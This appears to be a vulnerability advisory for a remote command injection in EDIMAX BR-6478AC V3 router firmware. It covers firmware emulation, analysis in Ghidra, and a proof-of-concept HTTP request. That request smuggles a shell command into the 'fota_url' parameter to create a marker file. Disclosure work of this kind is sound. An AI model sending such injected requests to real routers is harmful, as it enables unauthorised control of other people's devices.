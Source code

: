 # EDIMAX RCE
**description**: a remote-command-execution vulnerability was found on EDIMAX BR-6478AC V3 via the FUN_00416e24 function and systype in /bin/boa
## Firmware
**brand**:edimax   

**product**:AC1200 Wave 2 Dual-Band Gigabit Router   

**version**:BR-6478AC V3 1.0.15  

The firmware can be downloaded from this website[1] and using FirmAE to simulate the router environment.   
The command is 
```
sudo ./run.sh -d edimax ../Desktop/FIRWARE/BR-6478AC_v3_1.0.15.bin 
```
The result of the simulation is as follows: 
![alt text](images/simulation.png )
using ghidra we can know the action is formLtefotaUpgradeQuectel
![alt text](images/action.png)
and the relate web page is as follows and url of page is http://192.168.2.1/fota_quectel.htm:
![alt text](images/web.png)

## analyze
Using ghidra we can know that the post parameter "fota_url" will be sprintf as the first input parameter which will be executed
![alt text](images/analyze.png)
The details of the function as follows:

**addr**:00416ef8  
**function**: FUN_00416e24  
**parameter**:fota_url


# poc
Burp Suite change the packet as follows
```
POST /boafrm/formLtefotaUpgradeQuectel HTTP/1.1

Host: 192.168.2.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 86

Origin: http://192.168.2.1

Connection: close

Referer: http://192.168.2.1/fota_quectel.htm

Cookie: webuicookie=16041635651804289383

Upgrade-Insecure-Requests: 1



submit-url=%2Ffota_quectel.htm&fota_url=https%3A%2F%2F123\necho 123 > /tmp/poc_rce.txt
```
the result of POC is as follows, you can find the /tmp/poc_rce.txt was created after poc
![alt text](images/attack.png)

[1]:https://www.edimax.com/edimax/merchandise/merchandise_detail/data/edimax/global/home_legacy_wireless_routers/br-6478ac_v3
